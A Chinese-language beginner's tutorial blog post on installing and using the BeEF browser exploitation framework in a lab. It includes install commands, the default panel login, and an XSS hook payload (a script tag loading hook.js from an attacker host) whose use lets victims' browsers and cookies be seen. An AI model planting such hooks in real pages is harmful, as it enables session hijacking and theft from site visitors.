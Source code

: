 #**BeEf新手向**
##**写在前面**
*上学期第一次接触到XSS，然后就知道了BeEf这个工具，一直对BeEf很好奇。本文主要是作者作为新手记录学习用的，所以介绍的主要就是BeEf的使用，并没有涉及到底层。新手上路，求轻喷。*

##**BeEF简介**

 - 是什么？
BeEf,The Browser Exploitation Framework缩写，攻击者可以对目标进行攻击测试，攻击成功以后会加载浏览器劫持会话，它扩展了跨站漏洞的利用，能HOOK很多浏览器(IE和Firefox等)并可以执行很多内嵌命令。
 

###环境：BT5 【或者Kali】

##**安装**
删除BT5上面自带的版本稍旧的BeEF【kali上也有自带的beef】
```
rm -rf /pentest/web/beef-ng

git clone https://github.com/beefproject/beef

cd /pentest/web/beef

./beef
```
![这里写图片描述](http://img.blog.csdn.net/20171121212439825?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvTGFvbl9DaGFu/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast)
然后要开启apache
```
apache2 start
```
接着就访问返回信息中的**登录地址**http://localIP:3000/ui/panel，可以看到一个登录界面，默认账号/密码：beef/beef
![网页界面](http://img.blog.csdn.net/20171121211434022?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvTGFvbl9DaGFu/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast)
*这里有个小插曲，我在打开http://192.168.137.134:3000/ui/panel的时候，一直没有显示什么登录框，就以为是安装出了错，原来是我的fx设置了安全限制*

##**访问+测试**
访问测试网址http://ip:3000//demos/basic.html，就是说，如果一个网站有XSS漏洞，然后你通过某种方式把你的（钓鱼）网址发到这个有XSS漏洞的页面，受害者点击或者直接访问那个界面时，就会跳转到你构造的钓鱼界面
***页面源代码要有***

```
<script src="http://攻击主机IP:3000/hook.js"></script>
```

![这里写图片描述](http://img.blog.csdn.net/20171121214446838?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvTGFvbl9DaGFu/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast)
接着我们就可以在我们的beef上看到有受害者登录了
![这里写图片描述](http://img.blog.csdn.net/20171121215216183?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvTGFvbl9DaGFu/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast)

##**各个部分解析**
###**Logs**
日志，顾名思义，就是记录所有登录过的肉鸡【访问钓鱼网站的机器】
*又有问题了*——我想用我的物理机访问BT5上的测试网址，然后发现互ping都可以ping得通，就是访问不了。解决方法就是在NAT模式下，添加一个映射端口,接着就物理机和另一台虚拟机【win 2K3】都可以访问了

###**Current Browser**
####**Details**
可以看到肉鸡的详细信息，包括浏览器信息【版本号等】、访问的页面信息【有cookie！！】以及肉鸡的系统信息
